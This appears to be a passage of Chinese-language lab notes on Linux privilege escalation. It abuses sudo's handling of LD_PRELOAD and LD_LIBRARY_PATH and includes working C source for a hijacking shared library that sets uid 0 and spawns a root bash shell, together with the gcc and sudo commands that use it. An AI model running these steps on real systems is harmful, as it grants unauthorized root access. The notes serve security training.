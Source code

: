 ```c
```

运行一个允许通过 sudo 运行的程序(在运行 sudo-l 时会列出) ，同时将 LD \_ PRELOAD 环境变量设置为新共享对象的完整路径（此时能获取到root shell）:

```shell
sudo LD_PRELOAD=/tmp/preload.so vim
#使用LD_PRELOAD环境变量能够在程序中覆盖任意的函数调用
#当sudo vim执行时，本应该调用vim，但是此处会先加载共享对象/tmp/preload.so
```

![image-20221010111513934](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010111513934.png)

退出root shell，继续操作：对 apache2程序文件运行 ldd，该命令能够查看程序使用哪些共享库:

```
ldd /usr/sbin/apache2
```

![image-20221010111823923](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221010111823923.png)

使用位于/home/user/tools/sudo/library \_ path.c的代码创建一个与apache2列出的库(libcrypt.so.1)同名的共享对象:

```shell
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
#本质上是编译library_path.c 以便我们使用它
```

为了解实现原理，我们看一下library\_path.c的内容：

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
//执行hijack函数：释放环境变量、设置uid和root的uid对应、设置命令"/bin/bash -p"（该命令作用是打开bash shell）

//    unsetenv函数介绍
//    头文件：#include<stdlib.h>
//    函数原型： int unsetenv(const char* name)
//    函数说明：删除name环境变量的定义，即使不存在也不会出错
//    参数：name为环境变量名称字符串。 
//    返回值：成功返回0，错误返回-1
```

使用 sudo 运行 apache2，同时将LD\_LIBRARY\_PATH 环境变量设置为/tmp (/tmp目录下存在已编译的共享对象)，获得root shell :

```shell
sudo LD_LIBRARY_PATH=/tmp apache2
#此处运行sudo apache2时，本应该会加载apache2所使用的共享库
#但刚才创建了一个和apache2使用的真实共享库同名的共享对象（/tmp/libcrypt.so.1），并且指定了首先搜索共享库的目录列表（/tmp）
#所以以上命令执行时，会先加载/tmp/libcrypt.so.1共享对象
```
